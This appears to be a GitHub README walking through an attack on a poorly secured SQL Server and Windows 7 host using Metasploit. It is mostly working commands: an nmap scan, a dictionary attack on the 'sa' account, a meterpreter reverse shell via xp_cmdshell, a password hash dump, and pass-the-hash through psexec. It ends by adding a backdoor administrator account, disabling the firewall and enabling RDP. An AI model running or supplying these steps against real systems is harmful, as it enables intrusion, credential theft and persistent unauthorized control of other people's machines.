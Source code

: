 #exploit-sqlserver-smb

This will demonstrate exploiting a poorly secured Microsoft SQL Server to gather password information. Then using the Pass-The-Hash technique, exploit a SMB vulnerability to gain control of a system. 

We are basing this attack on the premise that we are attacking a system with a poor or weak password such as a software engineers PC or a test Virtual Machine.

An attacker brute forcing their way into one weak subsystem, could potentially then gain control of the whole system without ever knowing the passwords of the accounts with the privileges to do so. 
This is the aim of a Pass-the-hash exploit. It is a means of using obtained password hashes to access systems without without ever knowing the password itself.

## Setup

### Attacker

Kali Linux on a bridged network

### Target

- Operating System: Windows 7 Professional. 
- SQL Server: Version: 2008 Enterprise
- SQL Server Setup
- Service Accounts: NT Authority\Local System


## The Exploit

All these steps are run on the Attacking Computer

###Scanning Phase. 

Find Target and examine MSSQL Information

``` bash

nmap -P0 -sS -A 192.168.192.36
nmap -sU -A 192.168.192.36 -p1433

```
To note if PC Name is default junk:

	- usually signifies a VM, 
	- probably no antivirus
	- Developers set them up and destroy them regularly and not subject to usualy policies.
	- Which is nice

Start Metaploit

Get more details about the SQL Server

``` bash 

use auxiliary/scanner/mssql/mssql_ping
set RHOSTS 192.168.192.36
set THREADS 20
exploit

```

To note, PC Name is default junk, 
	usually signifies a VM, 
	probably no antivirus
	Developers set them up and destroy them regularly and not subject to usualy policies.
	Which is nice

###Attack Phase 

Dictionary attack on MSQL Credentials

``` bash 

use auxiliary/scanner/mssql/mssql_login
set RHOSTS 192.168.192.36
set RPORT 1433
set THREADS 20
set PASS_FILE /pentest/miniwordlist.txt
set USERNAME sa
exploit

```

####Establish a Reverse TCP Link with the victim

Microsoft SQL Server Payload Execution

This module executes an arbitrary payload on a Microsoft SQL Server by using the "xp_cmdshell" stored procedure. This method utilizes PowerShell to transmit and recreate the payload on the target. NOTE: This module will leave a payload executable on the target system when the attack is finished.

``` bash 

use exploit/windows/mssql/mssql_payload
show options
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST 192.168.192.36
set RPORT 1433
set USERNAME sa
set PASSWORD Password1
set LHOST 192.168.192.74
set LPORT 443
exploit

-- see who we are / currently have system privilages
use priv
getuid

-- get the hash dump
run post/windows/gather/hashdump

```

#### Pass The Hash

This module (exploit/windows/smb/psexec) will relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful. If the connecting user is an administrator and network logins are allowed to the target machine, this module will execute an arbitrary payload. PSExec will allow a password to be passed of a HASHED Password. To exploit this, the target system	must try to	authenticate to this module. The easiest way to force a SMB authentication attempt is by embedding a UNC path (\\SERVER\SHARE) 

Establish a link to the victim with administrator privilages

Use the Admin hash to have administrator privilages via the SMB exploit


``` bash

background
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST 192.168.192.36
set LHOST 192.168.192.74
set SHARE C$
set SMBPass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef
set SMBUser admin
exploit

-- Now open a shell
shell
```


#### Pawnage

-- Next Create a new admin account on the machine

``` bash

net user evilme evilme /add
net localgroup "Administrators" evilme /add


-- Allow Remote Access
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

-- Now RDP to hacked PC

You Win !

```


### References

[Metasploit with Microsoft SQL Server and SMB exploits (Part 1/2)](https://www.youtube.com/watch?v=hywLFAaKYEg)

[Metasploit with Microsoft SQL Server and SMB exploits (Part 2/2)](https://www.youtube.com/watch?v=OAsd4HtVZEw)

[MS08-068 Microsoft Windows SMB Relay Code Execution]
(http://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay)

https://www.rapid7.com/db/modules/exploit/windows/smb/psexec

[Pass the Hash Attack](http://www.sans.org/reading-room/whitepapers/testing/pass-the-hash-attacks-tools-mitigation-33283?show=pass-the-hash-attacks-tools-mitigation-33283&cat=testing)

[offensive-security](http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash)

[Microsoft SQL Server Payload Execution](http://www.rapid7.com/db/modules/exploit/windows/mssql/mssql_payload)